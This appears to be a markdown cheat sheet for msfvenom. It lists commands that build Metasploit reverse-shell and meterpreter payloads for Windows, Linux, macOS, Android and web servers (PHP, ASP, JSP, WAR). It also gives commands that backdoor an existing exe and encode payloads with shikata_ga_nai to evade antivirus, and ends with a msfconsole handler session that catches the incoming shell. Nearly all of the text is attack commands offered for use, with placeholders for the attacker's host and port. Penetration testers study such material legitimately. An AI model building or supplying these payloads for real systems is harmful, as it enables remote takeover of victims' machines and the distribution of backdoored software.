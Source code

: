 # MSFVenom

MsfVenom is a Metasploit standalone payload generator as a replacement for msfpayload and msfencode.

## Creting Binaries
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe`	
  - Creates a simple TCP Payload for Windows
- `msfvenom -p windows/meterpreter/reverse_http LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe`	
  - Creates a simple HTTP Payload for Windows
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f elf > example.elf`	
  - Creates a simple TCP Shell for Linux
- `msfvenom -p osx/x86/shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f macho > example.macho`	
  - Creates a simple TCP Shell for Mac
- `msfvenom -p android/meterpreter/reverse/tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} R > example.apk`	
  - Creates a simple TCP Payload for Android

## Web Payloads
Command	Info
- `msfvenom -p php/meterpreter_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.php`
  - Creates a Simple TCP Shell for PHP
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f asp > example.asp`
  - Creates a Simple TCP Shell for ASP
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.jsp`	
  - Creates a Simple TCP Shell for Javascript
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f war > example.war`	
  - Creates a Simple TCP Shell for WAR

## Windows Payloads

- `msfvenom -l encoders`	
  - Lists all avalaible encoders
- `msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe`	
  - Binds an exe with a Payload (Backdoors an exe)
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe`	
  - Creates a simple TCP payload with shikata_ga_nai encoder
- `msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe > example.exe`
  - Binds an exe with a Payload and encodes it

## Getting a Metepreter Shell
```
omar@ares:~$ sudo msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
```
